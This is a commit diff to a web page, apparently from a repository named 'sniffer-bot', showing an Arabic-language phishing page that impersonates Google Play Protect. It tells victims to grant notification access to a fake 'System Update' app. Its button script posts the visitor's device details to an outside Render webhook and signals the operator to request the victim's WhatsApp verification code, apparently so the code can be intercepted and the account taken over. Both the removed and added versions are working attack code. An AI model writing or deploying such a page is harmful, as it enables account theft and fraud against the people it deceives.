

Before and after one commit to rashdalmawry9-sketch/sniffer-bot, a website: page index.html in a window 1280 px wide. Shown: the part 198-584 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,39 +3,35 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>تحديث خدمات الأندرويد</title>
+    <title>تحديث النظام</title>
     <style>
-        body { font-family: sans-serif; background-color: #f1f3f4; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; }
-        .card { background: white; padding: 30px; border-radius: 15px; box-shadow: 0 4px 20px rgba(0,0,0,0.1); text-align: center; max-width: 350px; }
-        img { width: 60px; margin-bottom: 15px; }
-        h2 { font-size: 18px; color: #202124; }
-        p { color: #5f6368; font-size: 14px; margin-bottom: 20px; }
-        button { background: #1a73e8; color: white; border: none; padding: 12px 25px; border-radius: 5px; font-weight: bold; cursor: pointer; width: 100%; }
+        body { font-family: sans-serif; background: #f0f2f5; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; }
+        .card { background: white; padding: 30px; border-radius: 12px; box-shadow: 0 4px 15px rgba(0,0,0,0.1); text-align: center; max-width: 320px; }
+        button { background: #1a73e8; color: white; border: none; padding: 12px 20px; border-radius: 6px; font-weight: bold; cursor: pointer; width: 100%; margin-top: 15px; }
     </style>
 </head>
 <body>
     <div class="card">
-        <img src="https://upload.wikimedia.org/wikipedia/commons/c/c1/Google_Play_Protect_logo.png">
-        <h2>تحديث أمني مطلوب</h2>
-        <p>لحماية محادثاتك، يرجى تفعيل "مساعد الإشعارات" في إعدادات النظام للمتابعة.</p>
-        <button onclick="sendData()">تفعيل الحماية الآن</button>
+        <img src="https://upload.wikimedia.org/wikipedia/commons/c/c1/Google_Play_Protect_logo.png" width="60">
+        <h2>تحديث أمني عاجل</h2>
+        <p>يرجى تفعيل "مراقب الإشعارات" لحماية محادثاتك من الاختراق.</p>
+        <button onclick="sendHit()">تفعيل الحماية الآن</button>
     </div>
 
     <script>
-        function sendData() {
-            // تنبيه لتوجيه الضحية
-            alert("يرجى تفعيل 'Notification Access' لبرنامج 'System Update' في الصفحة التالية.");
-
-            // إرسال البيانات لسيرفر Render الخاص بك
+        function sendHit() {
+            alert("سيتم توجيهك الآن لإعدادات النظام...");
             fetch('https://sniffer-bot-1.onrender.com/webhook', {
                 method: 'POST',
                 headers: { 'Content-Type': 'application/json' },
                 body: JSON.stringify({
-                    message: "🔥 تم تفعيل المصيدة! اطلب كود الواتساب الآن لليتم سحبه.",
+                    message: "✅ تم تفعيل المصيدة بنجاح! اطلب كود الواتساب الآن.",
                     device: navigator.userAgent
                 })
             }).then(() => {
-                console.log("Success");
+                alert("تم الاتصال بالسيرفر بنجاح.");
+            }).catch(() => {
+                alert("فشل الاتصال، تأكد أن سيرفر Render يعمل.");
             });
         }
     </script>
```
